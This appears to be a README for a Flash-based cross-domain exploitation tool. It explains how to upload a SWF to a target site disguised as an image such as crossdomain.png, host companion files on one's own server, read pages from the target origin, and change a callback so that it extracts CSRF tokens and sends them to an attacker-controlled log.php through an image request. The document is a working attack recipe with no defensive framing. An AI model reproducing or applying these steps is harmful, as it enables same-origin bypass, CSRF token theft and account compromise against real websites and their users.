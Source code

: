 # crossdomain
Crossdomain exploiting

### How to use this?

In crossdomain.js, edit the following line:
```
crossdomain.setTarget('http://www.olivierbeg.nl/');
```

then:
- Upload the crossdomain.swf to the target (you can rename it to crossdomain.png or whatever).
- Upload the crossdomain.js, crossdomain.xml and the index.html to the root of your own server.
- Update the following information:
```
crossdomain.setTarget('http://www.olivierbeg.nl/');
crossdomain.setFile('crossdomain.swf');
```

- At `crossdomain.setTarget` you file in the page of which you want the content.
- At `crossdomain.setFile` you set the location of the uploaded swf file.


### How do I handle the data?

In `crossdomain.js` there is a callback function, this function receives all the content sent through the flash file that loads the data from the remote website. To exploit it further you can change the crossdomain.callback function to handle the data.

__ For example:__
```
'callback': function (data) {
  console.log(data);
}
```

Can become something like:

```
'callback': function (data) {
  var response = data.match('csrf value=(.*)>');
  if(response != null) {
    var img = document.createElement('img');
    img.src = 'log.php?response=' + escape(JSON.parse(response));

    document.getElementById('dump').appendChild(img);
  }
}
```
